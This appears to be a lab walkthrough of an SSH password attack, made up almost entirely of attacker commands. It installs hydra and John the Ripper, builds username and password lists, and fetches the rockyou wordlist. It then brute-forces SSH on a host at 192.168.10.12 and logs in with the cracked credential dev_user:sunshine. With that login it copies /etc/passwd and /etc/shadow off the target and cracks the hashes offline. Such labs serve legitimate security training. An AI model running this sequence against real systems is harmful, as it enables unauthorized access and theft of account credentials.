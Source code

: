 
#### **Attacker: Setup**

```bash
# Install the necessary attack tools
sudo apt install -y hydra nano
sudo snap install john

# Create a custom username list
nano usernames.txt
# Add the following lines to the file, then save and exit:
root
admin
user
testuser
dev_user
test_user_02

# Create a custom password list
nano passwords.txt
# Add the following lines to the file, then save and exit:
123456
password
qwerty
sunshine
welcome

# Download the rockyou.txt wordlist for the offline attack
wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

---

#### **Attacker: Attack Execution**

```bash
# Stage 1: Online Brute-Force Attack with Hydra
hydra -L usernames.txt -P passwords.txt ssh://192.168.10.12

# Stage 2: Acquire Hashes for Offline Attack
# Create a directory to store loot and move into it
mkdir loot
cd loot

# Use the compromised credentials (dev_user:sunshine) to download password files
scp dev_user@192.168.10.12:/etc/passwd .
scp dev_user@192.168.10.12:/etc/shadow .
# Enter 'sunshine' when prompted for the password.

# Combine the passwd and shadow files into a crackable format
unshadow passwd shadow > hashes_to_crack.txt

# Stage 3: Offline Cracking with John the Ripper
# Use the large wordlist to crack the combined hash file
john --wordlist=../rockyou.txt hashes_to_crack.txt

# To view the cracked passwords again later
john --show hashes_to_crack.txt
```

---